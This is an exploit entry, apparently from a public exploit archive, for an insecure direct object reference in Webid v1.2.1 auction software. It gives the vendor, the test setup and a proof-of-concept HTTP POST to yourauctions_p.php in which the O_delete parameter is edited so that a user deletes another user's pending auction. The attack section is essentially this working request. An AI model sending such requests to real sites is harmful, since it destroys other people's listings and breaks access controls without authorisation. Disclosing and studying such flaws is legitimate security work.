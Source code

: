 # Exploit Title: Webid v1.2.1 - Insecure Direct Object Reference(IDOR)
## Date: 2/1/2024
## Vendor Homepage: https://sourceforge.net/projects/simpleauction/files/latest/download
## Tested on: Debian Linux, Apache, Mysql
## Vendor: Webid
## Version: v1.2.1
## Exploit Description:
## Webid v1.2.1 suffers from IDOR - Broken Access Control Vulnerability allowing attackers to delete a pending auction that is owned by other user(horizontal privilege escalation).

## ---------------------------------POC-----------------------------
```
POST /yourauctions_p.php HTTP/1.1
...

csrftoken=78899377e1baac0dedb6f939e65ffad9&O_delete%5B%5D=10(CHANHE HERE)&action=delopenauctions&Submit=Process+selected+auctions
```